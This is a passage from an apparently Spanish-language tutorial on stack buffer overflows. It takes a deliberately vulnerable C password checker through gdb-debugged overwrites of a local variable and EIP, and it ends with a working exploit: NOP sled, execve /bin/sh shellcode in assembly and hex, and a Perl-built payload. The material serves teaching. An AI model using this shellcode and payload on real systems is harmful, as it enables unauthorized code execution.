Para encontrar una soluci\'on a este problema se deber\'ia pensar en lo que se ha explicado sobre el crecimiento de la pila y el almacenamiento de las variables. Como ya se ha comentado, la pila crece hacia direcciones de memoria inferiores. De este dato se deduce que si en un c\'odigo fuente se declara una variable y a continuaci\'on se declara otra variable, la segunda variable se ubicar\'a en una posici\'on de memoria inferior a la ubicaci\'on de la primera variable declarada.\\
Una vez recordado este dato, cabe destacar que cuando se almacena el valor de una variable, este valor se almacena en la direcci\'on de memoria donde se ha ubicado la variable y las posiciones de memoria contiguas y mayores. Con este dato se quiere decir que si por ejemplo una cadena de 4 $bytes$ apunta a la direcci\'on de memoria 0xbffff2ec, el primer $byte$ de la cadena se almacenar\'ia en la direcci\'on de memoria 0xbffff2ec, el segundo se almacenar\'ia en la direcci\'on de memoria 0xbffff2ed, el tercero en la direcci\'on 0xbffff2ee y el cuarto en la direcci\'on 0xbffff2ef.\\

A partir de estos datos es f\'acil analizar la raz\'on por la que la variable $iSuccess$ es sobreescrita al ocurrir el desbordamiento. En el c\'odigo fuente vulnerable las variables se declaran en este orden:

\lstset{language=C++,caption=C\'odigo vulnerable,label=fig:codigoVulnerable}
\begin{lstlisting}
int iSuccess = 0;
char caPassword[16];
\end{lstlisting} 

Con lo que la variable $iSuccess$ se almacena en una direcci\'on de memoria mayor a la direcci\'on de memoria donde se ubica el valor de la variable $caPassword$. Por esta raz\'on la variable $iSuccess$ se sobreescribe cuando en una direcci\'on de memoria inferior se almacenan m\'as $bytes$ de los que el respectivo b\'ufer puede almacenar. Para demostrar que este razonamiento es correcto se muestra la siguiente salida: 

\begin{listing}[style=consola, numbers=none, caption=Segunda correcci\'on]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedCorrected2 AAAAAAAAAAAAAAAAA

++++++++++++++++++++++++

|    ACCESS GRANTED    |

++++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 

\end{listing}

Si se ha seguido todo el razonamiento expuesto hasta el momento, uno se dar\'a cuenta de que las cosas no encajan. El acceso al c\'odigo restringido se deber\'ia haber denegado, sin embargo, como se puede ver, se ha podido tener acceso al c\'odigo restringido.\\
A continuaci\'on se muestra la raz\'on por la cual la soluci\'on no ha funcionado:

\begin{listing}[style=consola, numbers=none, caption=Problema con la segunda correcci\'on]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedCorrected2
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected2...hecho.
(gdb) list 1
1	#include <stdio.h>
2	#include <string.h>
3	#include <stdlib.h>
4	
5	int checkPassword(char * cpPassword) {
6		char caPassword[16];
7		int iSuccess = 0;
8	
9		strcpy(caPassword, cpPassword);
10	
(gdb) b checkPassword
Punto de interrupción 1 at 0x804848a: file passwordProtectedCorrected2.c, line 7.
(gdb) run AAAAAAAAAAAAAAAAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected2 AAAAAAAAAAAAAAAAA

Breakpoint 1, checkPassword (
    cpPassword=0xbffff584 'A' <repetidos 17 veces>)
    at passwordProtectedCorrected2.c:7
7		int iSuccess = 0;
(gdb) n
9		strcpy(caPassword, cpPassword);
(gdb) x caPassword
0xbffff2cc:	0x08048340
(gdb) x &iSuccess
0xbffff2dc:	0x00000000
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 4752] will be killed.

¿Salir de cualquier modo? (y o n) y
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 
\end{listing}

Como se puede ver, las variables se han declarado en orden inverso, tal y como se ha explicado. Primero la variable $caPassword$ y despu\'es la variable $iSuccess$. Sin embargo, tal y como ocurr\'ia cuando la variable $iSuccess$ se declaraba primero, la direcci\'on de memoria donde se ubica su valor es mayor a la direcci\'on de memoria donde se ubican los datos de la variable $caPassword$. La variable $iSuccess$ est\'a ubicada en la direcci\'on de memoria 0xbffff2dc que es mayor que 0xbffff2cc, que es la direcci\'on de memoria a la que apunta la cadena $caPassword$. Esto no deber\'ia ocurrir, ya que, debido a que la variable $caPassword$ se declara primero, \'esta deber\'ia apuntar a una direcci\'on de memoria superior a la de $iSuccess$, sin embargo, las cosas no son as\'i.\bigskip

Lo cierto es que este comportamiento no tiene ning\'un sentido aparente y s\'olo se puede deber a alg\'un tipo de optimizaci\'on que realiza el compilador GCC. Para demostrar que es una cuesti\'on completamente relacionada con el compilador, se modificar\'a el c\'odigo fuente de la aplicaci\'on para demostrar que el orden de declaraci\'on de las variables locales de una funci\'on no es respetada por el compilador.

\begin{listing}[style=consola, numbers=none, caption=Optimizaci\'on del compilador GCC]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gcc -g passwordProtectedCorrected2.c -o passwordProtectedCorrected2 -fno-stack-protector
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedCorrected2
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected2...hecho.
(gdb) list 1
1	#include <stdio.h>
2	#include <string.h>
3	#include <stdlib.h>
4	
5	int checkPassword(char * cpPassword) {
6		int lol1;
7		char caPassword[16];
8		int iSuccess = 0;
9		int lol2;
10	
(gdb) b checkPassword
Punto de interrupción 1 at 0x804848a: file passwordProtectedCorrected2.c, line 8.
(gdb) run AAAAAAAAAAAAAAAAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected2 AAAAAAAAAAAAAAAAA

Breakpoint 1, checkPassword (
    cpPassword=0xbffff584 'A' <repetidos 17 veces>)
    at passwordProtectedCorrected2.c:8
8		int iSuccess = 0;
(gdb) n
11		strcpy(caPassword, cpPassword);
(gdb) x &lol1
0xbffff2d4:	0x08049ff4
(gdb) x caPassword
0xbffff2c4:	0x08049ff4
(gdb) x &iSuccess
0xbffff2d8:	0x00000000
(gdb) x &lol2
0xbffff2dc:	0x08048589
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 4819] will be killed.

¿Salir de cualquier modo? (y o n) y
\end{listing}

Como se puede ver, en este ejemplo se han declarado dos nuevas variables. La variable $lol1$ es la primera que se declara, y la variable $lol2$ es la \'ultima que se declara. Sin embargo, las direcciones de memoria donde se ubican no concuerdan con el orden de declaraci\'on establecido en el c\'odigo fuente. La variable $lol1$ se almacena en al direcci\'on 0xbffff2d4, la variable $caPassword$ apunta a la direcci\'on 0xbffff2c4, la variable $iSuccess$ se almacena en la direcci\'on 0xbffff2d8 y la variable $lol2$ se almacena en la direcci\'on 0xbffff2dc. Esto significa que la variable $lol2$ es la que est\'a ubicada en la direcci\'on de memoria m\'as alta, seguida por la variable $iSuccess$, a su vez seguida por la variable $lol1$ y por \'ultimo la variable $caPassword$. Parece ser que el compilador ha ubicado las tres variables enteras en direcciones de memoria contiguas - a raz\'on de 4 $bytes$ por variable - y mayores a la direcci\'on de memoria a la que apunta la variable $caPassword$. Por esta raz\'on, la correcci\'on del c\'odigo no funcionaba.\\
\\
Curiosamente, una vez introducidas estas nuevas variables, la variable ubicada en la direcci\'on de memoria contigua a la variable $caPassword$ ya no es $iSuccess$, sino que es la variable $lol1$. Esto significa que cuando se pasa un par\'ametro de 17 $bytes$ al ejecutable, la variable $iSuccess$ no deber\'ia sobreescribirse y, por tanto, el acceso a la zona de c\'odigo restringido deber\'ia ser denegado. As\'i se muestra a continuaci\'on:

\begin{listing}[style=consola, numbers=none, caption=Vulnerabilidad corregida err\'oneamente]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedCorrected2 AAAAAAAAAAAAAAAAA

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 
\end{listing}

Sin embargo, no se deber\'ia perder de vista el hecho de que la variable $lol1$ est\'a almacenada en una direcci\'on de memoria cont\'igua a la direcci\'on de memoria donde se ubica la variable $iSuccess$, con lo que si se pasaran 21 $bytes$ como par\'ametro, se conseguir\'ia sobreescribir la variable $iSuccess$ y acceder a la zona de c\'odigo restringido:

\begin{listing}[style=consola, numbers=none, caption=Vulnerabilidad corregida err\'oneamente]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedCorrected2 AAAAAAAAAAAAAAAAAAAAA

++++++++++++++++++++++++

|    ACCESS GRANTED    |

++++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$  
\end{listing}

El objetivo de la investigaci\'on de estos dos m\'etodos de correcci\'on de vulnerabilidades ha sido dejar claros varios conceptos. El primero es que siempre se debe intentar corregir la parte de c\'odigo fuente que hace vulnerable un programa y no modificar el c\'odigo fuente para que sus funcionalidades no se vean afectadas por la vulnerabilidad. El segundo concepto es que muy a menudo las cosas no funcionan como te\'oricamente deber\'ian funcionar. En este ejemplo, se ha dado el caso de que ha sido el compilador el que no ha funcionado como deber\'ia, sin embargo, esta anomal\'ia se puede extrapolar a cualquier otro componente que forme parte del proceso de construcci\'on del ejecutable. Siempre se deben comprobar todos los par\'ametros de una ecuaci\'on, aunque algunos de ellos se den por supuestos. El \'ultimo concepto es que, m\'as a menudo de lo que a los programadores les gustar\'ia reconocer, cuando se intenta corregir una vulnerabilidad se a\~nade una nueva o no se corrige correctamente la original. En el caso estudiado, cuando se han introducido las nuevas variables al c\'odigo, el ejecutable ha dejado de funcionar incorrectamente cuando se le introduc\'ian 17 $bytes$, sin embargo, continuaba siendo vulnerable, tal y como se ha demostrado.

\pagebreak

\subsection {Ejecuci\'on de c\'odigo arbitrario}

\bigskip

Es en este punto en el que los conceptos de $exploiting$ y de $shellcoding$ convergen al fin. Hasta el momento se ha estudiado el modo de que un programa ejecutara instrucciones que no deb\'ia ejecutar. Sin embargo, estas instrucciones formaban parte del c\'odigo fuente del mismo programa. \\
En este apartado se estudiara la metodolog\'ia a seguir para conseguir ejecutar instrucciones ajenas al c\'odigo fuente vulnerable. Estas instrucciones a ejecutar son las que forman los $shellcodes$ que se han estudiado en los primeros apartados. \\
A continuaci\'on se mostrar\'a el m\'etodo para inyectar un $shellcode$ en un programa vulnerable en tiempo de ejecuci\'on.\bigskip

\subsubsection{Modificaci\'on del registro EIP}

El concepto b\'asico para la ejecuci\'on de un $shellcode$ a partir de un programa vulnerable, es que es el mismo programa el que debe ejecutar el $shellcode$. Para conseguir este prop\'osito se debe recordar lo explicado anteriormente sobre la construcci\'on del marco de pila de una funci\'on. Entre toda la estructura de datos que se creaba al construir un marco de pila, hab\'ia un dato de especial inter\'es para la explotaci\'on de una aplicaci\'on vulnerable. El dato en cuesti\'on es la direcci\'on de retorno que insertaba la instrucci\'on $call$ en el momento de llamar la funci\'on a ejecutar. Si se recuerda lo que se ha explicado en los cap\'itulos anteriores, esta direcci\'on de retorno se insertaba en el marco de pila de una funci\'on para que cuando se finalizar\'a el c\'odigo a ejecutar de dicha funci\'on, el flujo de ejecuci\'on del programa pudiera continuar con la instrucci\'on posterior a la llamada de la funci\'on. Esta direcci\'on de retorno especifica la direcci\'on de memoria donde se ubica la siguiente instrucci\'on que se debe ejecutar una vez se ha terminado el c\'odigo de la funci\'on ejecutada. \bigskip

Si un atacante fuera capaz de de modificar el valor de este dato, ser\'ia capaz de controlar completamente el flujo ejecuci\'on del programa vulnerable. El atacante podr\'ia especificar cualquier direcci\'on de memoria \footnote{Cabe destacar que no todas las regiones de memoria tienen los mismos permisos. Existen regiones de memoria que, por ejemplo, no tienen permisos de ejecuci\'on y, por tanto, si el c\'odigo de un $shellcode$ se ubicara en estas regiones no se podr\'ia ejecutar.}, ubicar su $shellcode$ en esa direcci\'on de memoria y, de este modo, cuando la ejecuci\'on de la funci\'on finalizara y el marco de pila se destruyera, la siguiente instrucci\'on a ejecutar ser\'ia la instrucci\'on ubicada en la direcci\'on de memoria que el atacante habr\'ia especificado y, de esta manera, se conseguir\'ia ejecutar el $shellcode$ elegido.\bigskip

A continuaci\'on se mostrar\'a como se puede modificar este dato. El registro que contiene la direcci\'on de memoria donde se ubica la instrucci\'on que se debe ejecutar a continuaci\'on es el registro $eip$\footnote{$Extended$ $Instruction$ $Pointer$}. El valor del registro $eip$ no se puede modificar manualmente, as\'i que se deber\'a modificar el dato comentado en el par\'agrafo anterior para que el registro $eip$ obtenga un valor alterado manualmente. \bigskip

Para realizar esta acci\'on basta con actuar del mismo modo que se ha actuado cuando se han estudiado los desbordamientos de bufers en la pila. En los cap\'itulos anteriores se modificaba el valor de las variables locales de una funci\'on para conseguir acceder a una zona de c\'odigo restringida. En esta ocasi\'on, el desbordamiento del b\'ufer permitir\'a sobreescribir los datos de control introducidos en el marco de pila y, gracias a esta acci\'on, se controlar\'a el valor del registro $eip$. A continuaci\'on se muestra el modo a proceder para conseguir el prop\'osito comentado. El c\'odigo fuente explotado es el mismo que en los apartados anteriores, pero el b\'ufer $caPassword$ se amplia a 128 $bytes$ para facilitar las cosas.


\lstset{language=C++,caption=C\'odigo fuente vulnerable,label=fig:VulnerableCodeExploited}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int checkPassword(char * cpPassword) {
        int iSuccess = 0;
        char caPassword[128];

        strcpy(caPassword, cpPassword);

        if ( strcmp(caPassword, "validPassword") == 0) iSuccess = 1;

        return iSuccess;
}

int main(int argc, char * argv[]) {
        if (argc != 2) {
                printf("[-] Usage: %s <password>\n", argv[0]);
                exit(0);
        }

        if ( checkPassword(argv[1]) ) {
                printf("\n++++++++++++++++++++++++\n");
                printf("\n|    ACCESS GRANTED    |\n");
                printf("\n++++++++++++++++++++++++\n\n");
        } else {
                printf("\n+++++++++++++++++++++++\n");
                printf("\n|    ACCESS DENIED    |\n");
                printf("\n+++++++++++++++++++++++\n\n");
        }

        return 0;
}
\end{lstlisting}

Debido a que el b\'ufer $caPassword$ es muy grande, se utilizar\'a el lenguaje de programaci\'on interpretado $Perl$\footnote{Para encontrar informaci\'on sobre el lenguaje de programaci\'on Perl se pueden visitar los siguientes enlaces: \\ \url{http://www.perl.org/docs.html} \\ \url{http://perldoc.perl.org/}} para pasar como argumento el n\'umero de $bytes$ necesario para sobreescribir el registro $eip$. Gracias a esto uno se ahorra mucho trabajo ya que no tiene que insertar los $bytes$ del par\'ametro manualmente.

\begin{listing}[style=consola, numbers=none, caption=Modificaci\'on del registro $eip$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gcc -g passwordProtectedAmpliado.c -o passwordProtectedAmpliado -fno-stack-protector
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedAmpliado
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado...hecho.
(gdb) run `perl -e 'print "A" x 155'`
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 155'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run `perl -e 'print "A" x 145'`
The program being debugged has been started already.
Start it from the beginning? (y o n) y

Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 145'`

Program received signal SIGSEGV, Segmentation fault.
0x08040041 in ?? ()
(gdb) run `perl -e 'print "A" x 144 . "ABCD"'`
The program being debugged has been started already.
Start it from the beginning? (y o n) y

Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 144 . "ABCD"'`

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 18870] will be killed.

¿Salir de cualquier modo? (y o n) y
\end{listing}
\bigskip
El m\'etodo utilizado para descubrir la ubicaci\'on de la direcci\'on de retorno ha sido de prueba y error. En vez de ir probando diferentes par\'ametros para descubrir c\'omo sobreescribir la direcci\'on de retorno, se podr\'ia haber desensamblado el ejecutable tal y como se hizo en el apartado donde se estudiaba la construcci\'on del marco de pila y haber podido descubrir la direcci\'on de memoria exacta donde se ubicaba la direcci\'on de retorno. \bigskip

Como se puede ver la t\'ecnica utilizada para sobreescribir el registro $eip$ se basa en ir pas\'andole al ejecutable par\'ametros de diferente longitud. Cada vez que se ejecuta el programa con un nuevo par\'ametro se inspecciona cual es el contenido del registro $eip$.\\
Con el primer intento se pasa un argumento que hace que el programa deje de funcionar y termine con la interrupci\'on SIGSEGV. Cada vez que se cierra el programa, el depurador $gdb$ muestra el contenido del registro $eip$, sin que se tenga que inspeccionar expl\'icitamente. Como se muestra, este error se da porqu\'e el registro $eip$ contiene el valor hexadecimal 41414141, que en ASCII su equivalente ser\'ia AAAA. Debido a que el registro $eip$ contiene el valor 0x41414141, la siguiente instrucci\'on que se ejecuta es la que se encuentra en la direcci\'on de memoria 0x41414141. Como la direcci\'on 0x41414141 no contiene una instrucci\'on v\'alida, o no es un segmento de memoria ejecutable, el flujo de ejecuci\'on del programa se detiene y se aborta su ejecuci\'on.\\
A continuaci\'on se prueban diferentes par\'ametros de una longitud inferior al primer par\'ametro, ya que este ya sobreescrib\'ia completamente el registro $eip$. El primer par\'ametro con el que no sobreescribe completamente el valor del registro $eip$ se introduce en el segundo intento y el n\'umero de $bytes$ del par\'ametro es 145. Con este par\'ametro se consigue que el registro $eip$ tome el valor 0x08040041, con lo que se sabe que faltan 3 $bytes$ m\'as para sobreescribir completamente el registro. \\
Por esta raz\'on se llega a la conclusi\'on de que para sobreescribir completamente el registro $eip$ se necesitan 148 $bytes$, con lo que a continuaci\'on se pasa un par\'ametro de 144 $bytes$ concatenados con otros cuatro $bytes$ equivalentes, ABCD.\bigskip

Gracias a la introducci\'on de este par\'ametro se consigue que el registro $eip$ tome el valor 0x44434241, que es el valor ASCII equivalente a DCBA. Como se puede comprobar, el valor ABCD del par\'ametro se almacena de modo inverso en el registro $eip$. Esto se debe a que se trabaja con una arquitectura $little$ $endian$ \footnote{Este concepto ya se ha tratado en el apartado de $shellcoding$.}. Este dato es muy importante porqu\'e avanza que cuando se quiera insertar los $bytes$ de una direcci\'on de memoria en el registro $eip$ se deber\'an introducir los $bytes$ de la direcci\'on en orden inverso. \bigskip

Llegados a este punto, ya se podr\'ia modificar el valor del registro $eip$ tal y como se desee.

\subsubsection{Construcci\'on del exploit}

Una vez se conoce el n\'umero de $bytes$ necesarios para sobreescribir exactamente el registro $eip$, se debe estudiar como se conseguir\'a redireccionar el flujo de ejecuci\'on del programa hacia la direcci\'on de memoria donde se ubica el inicio del $shellcode$.\bigskip

La dificultad de esta acci\'on reside en que en tiempo de compilaci\'on es imposible saber la direcci\'on exacta donde se ubicar\'a el $shellcode$. Sin embargo, el dato crucial es que se conoce de antemano que el $shellcode$ se ubicar\'a en la regi\'on de memoria que se utiliza como pila. As\'i pues, gracias a esta informaci\'on se puede obtener una direcci\'on de memoria para utilizarla como referencia. Tal y como se ha visto en otros cap\'itulos, el valor del registro $esp$ se puede obtener en tiempo de ejecuci\'on. Gracias a este dato se podr\'a conocer en qu\'e direcci\'on de memoria se ha ubicado el \'ultimo dato perteneciente a la pila. \bigskip

Como se puede ver en el Ap\'endice II, si la protecci\'on del sistema ASLR est\'a desactivada, el inicio del segmento de pila siempre es el mismo. Como ya hemos comentado, la pila crece hacia direcciones de memoria inferiores. Esto significa que el $shellcode$ que se inyectar\'a en el ejecutable vulnerable se ubicar\'a en una direcci\'on de memoria inferior a la direcci\'on inicial de la pila, que es la que se obtendr\'a a continuaci\'on con el siguiente c\'odigo.

\lstset{language=C++,caption=Obteniendo el valor del registro ESP}
\begin{lstlisting}
#include <stdio.h>

int main(int argc, char ** argv) {

        int reg_esp;

        __asm__ __volatile__ ("mov %%esp, %0" :"=g"(reg_esp));

        printf("ESP value: %p\n", (void *) reg_esp);

        return 0;
}
\end{lstlisting}


Despu\'es de ejecutar varias veces el c\'odigo fuente mostrado anteriormente, se puede comprobar como el valor del registro $esp$ siempre es el mismo.

\begin{listing}[style=consola, numbers=none, caption=Modificaci\'on del registro $eip$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ gcc getESP.c -o getESP
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ ./getESP 
ESP value: 0xbffff390
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ ./getESP 
ESP value: 0xbffff390
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ ./getESP 
ESP value: 0xbffff390
\end{listing}

La direcci\'on inicial de la regi\'on de memoria que se utilizar\'a como pila es 0xbffff390. Por tanto, es conocido el hecho de que el $shellcode$ se ubicar\'a en una direcci\'on de memoria inferior a 0xbffff390. Debido a que no es posible conocer la direcci\'on exacta del $shellcode$ antes de que se ejecute el programa, se deber\'a hacer una aproximaci\'on sobre su posible ubicaci\'on. \bigskip

Se podr\'ia pensar que si no se conoce la direcci\'on de memoria exacta donde se ubicar\'a el $shellcode$, no ser\'a posible ejecutarlo ya que cuando se especifique una direcci\'on de memoria erronea, el programa se detendr\'a debido a que el contenido de la direcci\'on de memoria especificada en el registro $eip$ no contendr\'a una instrucci\'on v\'alida que se pueda ejecutar. Muy seguramente contendr\'a datos que no tengan nada que ver con instrucciones ejecutables, como ahora variables locales o par\'ametros de una funci\'on.\\
Para solucionar este problema podemos contruir lo que se conoce como $NOP$ $Sled$. \bigskip

\begin{itemize}
	\item \textbf{NOP Sled}
\end{itemize}

Se conoce como NOP Sled a una secuencia de $byte$ formada por el $opcode$ 0x90. El $opcode$ 0x90 identifica a la instrucci\'on en ensamblador conocida como No-OPeration. Esta instrucci\'on lo \'unico que hace es consumir ciclos del procesador del sistema sin que se realice ning\'un tipo de operaci\'on.\\
Si la direcci\'on de memoria que contuviera el registro $eip$ apuntar\'a hacia una una direcci\'on de memoria que contuviera la instrucci\'on NOP, el procesador la ejecutar\'ia y continuar\'ia ejecut\'ando el contenido de la siguiente direcci\'on de memoria contigua. Es importante resaltar que, a diferencia del crecimiento de la pila hacia posiciones de memoria inferiores, cuando el procesador ejecuta instrucciones de memoria, las intrucciones que se ejecutan sucesivamente est\'an ubicadas en direcciones de memoria superiores, a menos, claro, que se ejecuten saltos condicionales, bucles o llamadas a funciones.\bigskip

Por esta raz\'on, si la direcci\'on que contiene el registro $eip$ apunta hacia una direcci\'on de memoria que contiene una secuencia de instrucciones NOP, \'estas se ejecutar\'an secuencialmente hasta que el conjunto de operaciones NOP se termine y se encuentre alguna instrucci\'on diferente. Es aqu\'i donde se ubicar\'a alguno de los $shellcodes$ desarrollados en los primeros apartados. Gracias a esta t\'ecnica no es necesario conocer exactamente la direcci\'on de memoria donde se ubicar\'a el $shellcode$. Se puede hacer una aproximaci\'on de modo que si no se acierta la direcci\'on exacta del $shellcode$, muy posiblemente se apunte a una direcci\'on de memoria que contenga las instrucciones NOP, que se ir\'an ejecutando secuencialmente hasta que se terminen y se empiece a ejecutar el c\'odigo del $shellcode$ que estar\'a ubicado a continuaci\'on. \\
As\'i pues, el contenido que se debe inyectar como par\'ametro del programa debe tener la siguiente forma:

\begin{verbatim}
+---------------------------------------------------------------+
|    NOP Sled    |    Shellcode    |    Direccion de retorno    |
+---------------------------------------------------------------+
\end{verbatim}

Tal y como se ve en el esquema, la direcci\'on de retorno apuntar\'a a una de las direcciones que contenga el NOP Sled y este se ejecutar\'a hasta dar con el $shellcode$.

\begin{itemize}
	\item \textbf{Calculo de la direcci\'on de retorno}
\end{itemize}

Tal y como ya se ha comentado, como referencia se utilizar\'a la direcci\'on de memoria incial de la pila, que es 0xbffff390. Como ya se ha comentado, la direcci\'on de memoria donde se ubicar\'a el $shellcode$ ser\'a inferior que la contenida por el registro $esp$. Sin embargo, aunque es muy complicado conocer la posici\'on exacta de los datos en memoria, se puede hacer una aproximaci\'on sabiendo que los argumentos se insertan en memoria a partir de la direcci\'on inicial de la pila. Como ya se ha comentado en el apartado donde se estudia la estructura de un marco de pila, el par\'ametro pasado a una funci\'on se inserta en la pila antes de que se almacenen los datos de la funci\'on llamada, por esta raz\'on, el par\'ametro que se le pasar\'a al ejecutable se almacenar\'a antes que los datos relativos a la funci\'on $main$.\\
Teniendo en cuenta que se necesitan 148 $bytes$ para sobreescribir la direcci\'on de memoria de donde el registro $eip$ obtendr\'a su valor, se estima que si a la direcci\'on inicial de la pila se le restan 80 $bytes$ - 50h - muy seguramente se apunte hacia una direcci\'on de memoria que contenga una instrucci\'on del NOP Sled. La direcci\'on resultante es 0xbffff390 - 0x50 = 0xbffff340. Como ya se ha comentado, esta direcci\'on de memoria se debe insertar en la pila de modo invertido, o sea, primero el $byte$ 40, despu\'es el $byte$ f3 y as\'i sucesivamente.\\

\begin{itemize}
	\item \textbf{Elecci\'on del $shellcode$}
\end{itemize}

Para vulnerar el ejecutable se ha elegido el $execve$ $shellcode$ que se ha explicado en los primeros apartados. Su c\'odigo es el siguiente:

\lstset{language=C++,caption=$Execve$ $shellcode$ en ensamblador,label=fig:execveShellcode}
\begin{lstlisting}	
		BITS 32
		xor eax, eax
		cdq
		mov byte al, 11
		push edx
		push long 0x68732f2f
		push long 0x6e69622f
		mov ebx, esp
		push edx
		mov edx, esp
		push ebx
		mov ecx, esp
		int 0x80
\end{lstlisting}

Para convertir este c\'odigo ensamblador en $opcodes$ que se puedan insertar en memoria directamente para su ejecuci\'on se utilizar\'a el $script$ ideado por $vlan$ del que ya se ha hablado en los primeros apartados:

\begin{listing}[style=consola, numbers=none, caption=$Script$ para obtener los $opcodes$ de un $shellcode$]	
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
		cat genShell.sh 
		#!/bin/sh

		objdump -d ./$1 | grep '[0-9a-f]:' |grep -v 'file' |cut -f2 -d: 
		|cut -f1-6 -d' ' |tr -s ' ' |tr '\t' ' ' |sed 's/ $//g' |	sed 's/ /\\x/g' 
		|paste -d '' -s |sed 's/^/"/' |sed 's/$/"/g'
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/OtrasCosas$ 
\end{listing}

El $shellcode$ que se inyectar\'a en memoria es el que se puede ver a continuaci\'on:

\begin{listing}[style=consola, numbers=none, caption=$Shellcode$ a inyectar]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ExecveShellcode/PushingExecve$ ./genShell.sh execve-Pushing2
"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ExecveShellcode/PushingExecve$	
\end{listing}

Si se cuenta el n\'umero de $opcodes$ que forman el $shellcode$ se obtiene que el tama\~no es de 26 $bytes$. Normalmente, el taman\~no del NOP Sled acostumbra a ser la mitad del tama\~no del b\'ufer necesario para llegar a sobreescribir el valor donde se ubica la direcci\'on de retorno. Por esta raz\'on se fijar\'a el tama\~no del NOP Sled a 74 $bytes$, que es la mitad de 148. Con los 74 $bytes$ del NOP Sled, m\'as los $26$ $bytes$ del $shellcode$ faltan 48 $bytes$ para llegar a sobreescribir la direcci\'on de retorno. Por esta raz\'on, la direcci\'on de retorno que se ha elegido anteriormente, 0xbffff340, se repetir\'a 12 veces. O sea, se a\~nadir\'an 48 $bytes$ m\'as al b\'ufer. De este modo se asegura que la direcci\'on de retorno sea sobreescrita por la direcci\'on 0xbffff340.
\\
La construcci\'on del par\'ametro se construir\'a con el siguiente comando:

\begin{listing}[style=consola, numbers=none, caption=Construcci\'on del par\'ametro]
`perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" . "\x40\xf3\xff\xbf"x12';`
\end{listing}

Primero se escriben 74 $bytes$ del NOP Sled, acto seguido se a\~nade el $shellcode$ y por \'ultimo se a\~nade 12 veces la direcci\'on de retorno calculada anteriormente. \bigskip

\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $exploit$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedAmpliado `perl -e 'print "\x90"x74 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
Instrucción ilegal
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedAmpliado `perl -e 'print "\x90"x75 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
Fallo de segmentación
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtectedAmpliado `perl -e 'print "\x90"x76 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" .  "\x40\xf3\xff\xbf"x12';`
